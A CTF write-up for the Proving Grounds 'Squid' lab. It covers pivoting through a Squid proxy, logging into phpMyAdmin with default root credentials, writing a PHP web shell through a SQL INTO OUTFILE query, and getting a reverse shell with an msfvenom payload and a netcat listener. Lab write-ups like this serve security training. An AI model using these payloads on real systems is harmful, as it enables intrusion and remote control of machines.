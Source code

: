 ```yaml
---
title: "Proving grounds Practice: Squid"
layout: post
date: 2023-08-20 06:00
categories: writeup
---
```


Proving grounds Practice - Squid CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
```

Squid http proxy service running on PORT 3128. Use [Squid Pivoting Open Port Scanner](https://github.com/aancw/spose) to perform PORT scanning.

![img](/assets/images/CTF/Proving_Grounds/Squid/pscan.png)

Configure the proxy `server IP` and `PORT` in the browser to access the webserver running on PORT 8080.

![img](/assets/images/CTF/Proving_Grounds/Squid/8080.png)

**System Information**

![img](/assets/images/CTF/Proving_Grounds/Squid/sysinfo.png)

**PHPMyadmin**

![img](/assets/images/CTF/Proving_Grounds/Squid/myadmin.png)

Login with username `root` and password as `null`.

Execute below sql query to create reverse shell.

```sql
SELECT "<?php system($_GET['cmd'])?>" INTO OUTFILE "C:/wamp/www/shell2.php"
```

As shown in the phpinfo() page the document root folder is `C:/wamp/www`. So the shell will be publicly accessible at `http://192.168.237.189:8080/shell2.php`.

## Remote Code Execution

```text
http://192.168.237.189:8080/shell2.php?cmd=whoami
```

![img](/assets/images/CTF/Proving_Grounds/Squid/if.png)

## Obtain Stable Shell using msfvenom

```sh
msfvenom -f exe -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=1234 -o mshell.exe
```

Use curl to download the shell in to the attacking machine. Run a `nc` llisterner and execute the reverse shell by visiting `http://192.168.237.189:8080/shell2.php?cmd=mshell.exe`

![img](/assets/images/CTF/Proving_Grounds/Squid/rshell.png)

Reverse shell obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).